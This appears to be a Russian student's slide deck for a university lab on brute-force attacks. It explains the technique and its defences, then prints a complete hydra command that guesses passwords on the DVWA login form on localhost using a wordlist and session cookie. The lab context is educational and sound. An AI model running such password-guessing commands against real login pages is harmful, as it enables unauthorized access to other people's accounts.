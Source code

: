 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект - этап 3
author: |
	 Старикова Евгения\inst{1}

institute: |
	\inst{1}Российский Университет Дружбы Народов

date: 25 сентября, 2024, Москва, Россия

## Formatting
mainfont: PT Serif
romanfont: PT Serif
sansfont: PT Sans
monofont: PT Mono
toc: false
slide_level: 2
theme: metropolis
header-includes: 
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'
aspectratio: 43
section-titles: true

---
```


# Цели и задачи работы

## Цель лабораторной работы

Целью данной работы является изучение атак типа брут-форс и инструмента hydra.

# Процесс выполнения лабораторной работы

## Введение

Атака брут-форс (англ. brute force attack) — это метод взлома, основанный на последовательном 
переборе возможных комбинаций значений (паролей, ключей шифрования и т. д.), 
чтобы подобрать правильное значение и получить несанкционированный доступ.

## Введение

Атаки брут-форс являются одним из самых простых, но эффективных способов взлома учетных записей, 
если системы не защищены должным образом. 

Сильные пароли, ограничения на количество попыток входа и двухфакторная аутентификация 
могут значительно уменьшить вероятность успешной атаки.

## Страница веб-формы

![Страница веб-формы](image/01.png){ #fig:001 width=70% height=70% }

## Команда для запуска hydra

```bash

hydra -l admin -P /usr/share/dirb/wordlists/small.txt \
 localhost http-get-form "/DVWA/vulnerabilities/brute/ \
 :username=^USER^&password=^PASS^&Login=Login: \ 
 H=Cookie: PHPSESSID=f2q94tbasiksr9q31mlg9d4qum; \ 
 security=medium:F=Username and/or password incorrect."  \
 -V

```

## Результат подбора

![Результат подбора](image/03.png){ #fig:003 width=70% height=70% }

# Выводы по проделанной работе

## Вывод

Мы приобрели знания об атаках брут-форс и инструменте hydra.